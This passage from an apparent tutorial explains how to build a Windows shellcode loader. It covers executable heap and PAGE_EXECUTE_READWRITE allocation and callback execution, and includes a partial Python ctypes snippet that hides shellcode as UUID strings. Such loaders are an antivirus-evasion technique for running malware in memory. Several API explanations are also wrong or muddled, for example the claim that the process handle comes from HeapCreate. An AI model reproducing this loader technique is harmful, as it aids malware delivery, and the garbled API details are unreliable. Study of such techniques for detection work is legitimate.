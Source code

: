 ​ This `API` requires three parameters to be passed in. The first parameter is used to set the heap allocation option. It is set to `HEAP_CREATE_ENABLE_EXECUTE` here, allowing all memory blocks allocated by the heap to execute code; the second parameter is used to set the initial size of the heap. When the parameter is `0`, a page will be submitted, and it is set to `0` here; the third parameter is used to set the maximum size of the heap. If `dwMaximumSize` is not zero, the heap size is fixed and cannot exceed the maximum size. If `dwMaximumSize` is `0`, the heap can be increased in size, and it is also set to `0` here.

- `ZwAllocateVirtualMemory`: The `ZwAllocateVirtualMemory` routine retains, submits, or retains a region's page in the user-mode virtual address space of the specified process.

```c++
NTSYSAPI NTSTATUS ZwAllocateVirtualMemory(
  [in] HANDLE ProcessHandle,
  [in, out] PVOID *BaseAddress,
  [in] ULONG_PTR ZeroBits,
  [in, out] PSIZE_T RegionSize,
  [in] ULONG AllocationType,
  [in] ULONG Protect
);
```

​The `API` requires six parameters to be passed in. The first parameter is used to set the process handle for executing the mapping, which is set to the result returned by `HeapCreate`; the second parameter is used to point to a variable that will receive the base address of the assigned page area. If the initial value of this parameter is `NULL`, the operating system will determine the location of the allocated area, which is set to `NULL` here; the third parameter must be less than `21` and it is only used when the operating system determines the location of the allocated area. The old setting is `NULL`; the fourth parameter is used to point to a variable that will receive the actual size of the assigned page area. Note that the size of the requested memory should be `len(shellcode)*16`; the fifth parameter is used to specify the bitmask of the flag of the allocation type to be executed, here is set to `MEM_COMMIT`; the sixth parameter is used to specify the protection required for the submitted page area, here is set to `PAGE_EXECUTE_READWRITE`.

​ Finally, the `callback` method is used to trigger the execution of `shellcode` in memory. For the API that executes `shellcode` through function callback, you can view it in the project `AlternativeShellcodeExec`: https://github.com/aahmad097/AlternativeShellcodeExec.

```python
# -*-coding:utf-8 -*-
"""
The ctypes library is a module in Python that calls the system dynamic link library functions. The ctypes library can use the C language dynamic link library and pass functions to it.
UUID memory loading (this version does not use heapCreate+ZwAllocateVirtualMemory)
"""
import uuid
import ctypes

def UUIDConvert(shellcode):
    uuid_shellcode = []
    if len(shellcode) % 16 != 0:
        null_byte = b'\x00' * (16 - len(shellcode) % 16)
        shellcode += null_byte

    for i in range(0, len(shellcode), 16):
        uuid_string = str(uuid.UUID(bytes_le=shellcode[i: i + 16]))
        uuid_shellcode.append(uuid_string)
    return uuid_shellcode


shellcode = b''
uuid_shellcode = UUIDConvert(shellcode=shellcode)
print(uuid_shellcode)

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode)))
```